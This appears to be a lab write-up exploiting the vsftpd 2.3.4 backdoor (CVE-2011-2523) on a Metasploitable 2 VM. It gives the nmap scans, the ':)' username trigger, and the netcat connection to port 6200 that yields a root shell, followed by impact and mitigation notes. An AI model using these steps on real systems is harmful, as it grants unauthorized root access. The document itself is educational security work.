



Project: Exploiting vsftpd 2.3.4 Backdoor (CVE-2011-2523)

Category: Exploitation / Vulnerability Analysis
Tools Used: Nmap, Netcat, FTP client
Target: Metasploitable 2 — vsftpd 2.3.4 service
Objective: Identify and exploit a known backdoor vulnerability to obtain a root shell

1. Overview

This project demonstrates the discovery and exploitation of a real-world backdoor vulnerability in vsftpd version 2.3.4.
The vulnerability (CVE-2011-2523) was introduced when a malicious version of the software was uploaded to the official download site in 2011.

When a username containing the characters :) is submitted to the FTP server, vsftpd opens a hidden backdoor on TCP port 6200, which provides a root shell.

This demonstration shows:

Network scanning
Service enumeration
Vulnerability identification
Manual exploitation
Post-exploitation validation

2. Reconnaissance (Nmap Scan)

A service/version scan was performed:

nmap -sV -p 21 192.168.56.102

Results:

Port 21/tcp open

Service identified as vsftpd 2.3.4

Nmap scripts flagged the service as vulnerable

CVE references: CVE-2011-2523

3. Understanding the Vulnerability

The backdoor exists in the modified source code:

if (strstr(pw->pw_name, ":)")) {
    vsf_sysutil_extra();
}

Meaning:

If the username contains :), a malicious function runs.

This function opens TCP port 6200.

A root shell is attached to that port.

4. Exploitation Steps
4.1 Trigger the backdoor

Connect to FTP:

ftp 192.168.56.102

Use the trigger payload:

Username: user:)
Password: anything

Quit FTP:

quit

4.2 Confirm backdoor port opened
nmap -p 6200 192.168.56.102

Result:

6200/tcp open

4.3 Connect to the root shell
nc 192.168.56.102 6200

Once connected, verify privileges:

id
whoami

Expected output:

uid=0(root) gid=0(root)
root

This confirms full root access via the backdoor.

5. Security Impact

This vulnerability grants unauthenticated root access.

It bypasses:

login authentication

filesystem permissions

system logging

access control

Real-world impact includes:

Full system takeover

Credential theft

Service pivoting

Remote command execution

6. Mitigation

Update vsftpd to a patched version

Verify package integrity (checksums/signatures)

Use network segmentation

Enforce intrusion detection and monitoring

Disable or firewall unused services

